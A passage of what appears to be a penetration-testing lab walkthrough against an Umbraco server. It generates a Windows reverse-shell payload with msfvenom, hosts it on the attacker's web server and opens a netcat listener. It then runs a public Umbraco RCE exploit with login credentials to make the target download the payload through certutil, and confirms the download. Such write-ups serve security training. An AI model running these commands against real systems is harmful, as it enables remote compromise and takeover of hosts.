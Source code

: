 Generate reverse shell executable and place in web server root:

(Apache2 is already running with DocumentRoot at `/var/www/html`)

```console
┌──(root㉿kali)-[~]
└─# msfvenom -p windows/x64/shell_reverse_tcp LHOST=kali.vx LPORT=4444 -f exe -o /var/www/html/reverse.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7168 bytes
Saved as: /var/www/html/reverse.exe
```

Open another console window on Kali to listen for connections:

```console
┌──(root㉿kali)-[~]
└─$ nc -nlvp 4444
listening on [any] 4444 ...
```

Download the reverse shell executable using the Umbraco RCE:

```console
┌──(root㉿kali)-[~]
└─$ python3 49488.py -u admin@itsl.local -p mouseindeed -i http://10.0.88.45:9450 -c certutil.exe -a '/urlcache /f /split http://kali.vx/reverse.exe C:\\Users\\myumbraco.local\\reverse.exe'
****  Online  ****
  0000  ...
  1c00
CertUtil: -URLCache command completed successfully.
```

Verify file saved successfully:

```console
┌──(root㉿kali)-[~]
└─$ python3 49488.py -u admin@itsl.local -p mouseindeed -i http://10.0.88.45:9450 -c cmd -a '/c dir C:\\Users\\myumbraco.local\\'
 Volume in drive C has no label.
 Volume Serial Number is DA18-B95C

 Directory of C:\Users\myumbraco.local

11/26/2022  04:01 AM    <DIR>          .
11/26/2022  04:01 AM    <DIR>          ..
07/16/2016  03:47 AM    <DIR>          Desktop
10/12/2021  08:06 PM    <DIR>          Documents
07/16/2016  03:47 AM    <DIR>          Downloads
07/16/2016  03:47 AM    <DIR>          Favorites
07/16/2016  03:47 AM    <DIR>          Links
07/16/2016  03:47 AM    <DIR>          Music
07/16/2016  03:47 AM    <DIR>          Pictures
11/26/2022  04:01 AM             7,168 reverse.exe
07/16/2016  03:47 AM    <DIR>          Saved Games
07/16/2016  03:47 AM    <DIR>          Videos
               1 File(s)          7,168 bytes
              11 Dir(s)  40,163,545,088 bytes free
```
